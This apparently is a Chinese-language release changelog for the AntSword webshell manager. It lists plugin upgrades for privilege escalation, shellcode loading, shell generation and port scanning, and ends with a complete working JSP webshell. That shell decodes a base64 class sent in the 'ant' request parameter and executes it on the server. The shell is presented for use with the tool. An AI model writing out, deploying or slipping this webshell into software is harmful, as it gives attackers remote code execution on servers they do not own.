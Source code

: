 ### 数据管理

* 修复 context menu category self-xss (thx @lixuesv)

### 其它

* 优化插件加载, 加载异常的插件不会再影响到其它插件加载了
* 更新纯真IP库(2021/02/02)
* 文档地址更换到语雀 https://www.yuque.com/antswordproject/antsword/
* 加入 404Team [404StarLink 2.0 - Galaxy](https://github.com/knownsec/404StarLink2.0-Galaxy)

 > 非常有幸能够加入星链计划, 大家有空可以了解一下星链计划，有许多很酷的安全项目, 你一定不想错过

### 插件相关

* [As-Exploits](https://github.com/AntSword-Store/GenShell) 升级到 v1.1

  * 增加对aspx类型的支持
  * 增加提权辅助模块（aspx/jsp/php）
  * 增加屏幕截图模块（jsp）
  * 增加shellcode加载器模块（aspx）
  * 仅展示当前类型可用模块，不可用模块不再显示

* [GenShell](https://github.com/AntSword-Store/GenShell) 升级到 v0.2

 > 新增 asp、aspx、jsp 三种 Shell 类型生成

* [AS_Redis](https://github.com/AntSword-Store/AS_Redis) 升级到 v0.4

  > 支持 jsp 类型

* [PortScan](https://github.com/AntSword-Store/PortScan) 升级到 v0.3

 > 支持 jsp、php4 类型

* [as_netstat](https://github.com/AntSword-Store/as_netstat) 升级到 v0.2

  > 支持所有类型


## 2020/09/10 `v(2.1.9)`

### 核心

* 新增 JSP 类型一句话支持 (**试验功能**)

使用的 Shell 例如：

```
<%!
class U extends ClassLoader{
  U(ClassLoader c){
    super(c);
  }
  public Class g(byte []b){
    return super.defineClass(b,0,b.length);
  }
}
%>
<%
String cls=request.getParameter("ant");
if(cls!=null){
  new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext);
}
%>
```

